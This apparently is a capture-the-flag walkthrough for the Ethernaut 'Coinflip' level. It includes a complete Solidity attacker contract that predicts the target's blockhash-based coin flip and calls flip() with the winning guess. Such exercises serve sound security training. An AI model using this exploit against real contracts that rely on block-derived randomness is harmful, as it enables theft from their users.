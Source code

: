 # [3. Coinflip](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

Here is our attacking contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256; 

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;
    
    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```

We can simply copy & paste their contract and find the flip result on our side beforehand.

